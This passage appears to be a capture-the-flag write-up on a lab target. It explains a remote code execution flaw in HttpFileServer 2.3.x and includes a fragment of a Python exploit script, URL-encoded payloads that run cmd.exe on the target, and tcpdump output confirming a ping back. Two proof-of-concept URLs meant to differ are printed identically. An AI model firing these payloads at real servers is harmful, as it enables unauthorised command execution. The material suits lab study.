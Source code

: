 ```
        http = urllib3.PoolManager()    
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)
        
except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)

```

In Python, `{}` in a f-string (notice the url is wrapped in `f' '`) represent variables, so the `{{` and `}}` are how you escape to write actual curly brackets. So this is just a single HTTP request to `/?search={.+exec|[url-encoded command].}` to get RCE.

```

http://10.10.10.8/?search=%00{.+exec|C%3A%5Cwindows%5Csystem32%5Ccmd.exe%20/c%20ping%2010.10.14.10.}

```

Or URL decoded:

```

http://10.10.10.8/?search=%00{.+exec|c:\windows\system32\cmd.exe+/c+ping+-c+1+10.10.14.10.}

```

### POC

As a proof of concept, I crafted this URL to try to ping myself:

```

http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}

```

If it works, I should see a single ICMP packet at my host. I started `tcpdump` and submitted, and nothing.

Often, this can be an issue with the system not finding the path to `ping` in this current environment. So I tried adding `cmd /c` before the command:

```

http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}

```

It worked (interestingly four times):

```

oxdf@parrot$ sudo tcpdump -i tun0 icmp and src 10.10.10.8
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:16:51.416240 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 117, length 40
16:16:51.416294 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 118, length 40
16:16:51.416309 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 119, length 40
16:16:51.418739 IP 10.10.10.8 > 10.10.14.10: ICMP echo request, id 1, seq 120, length 40

```
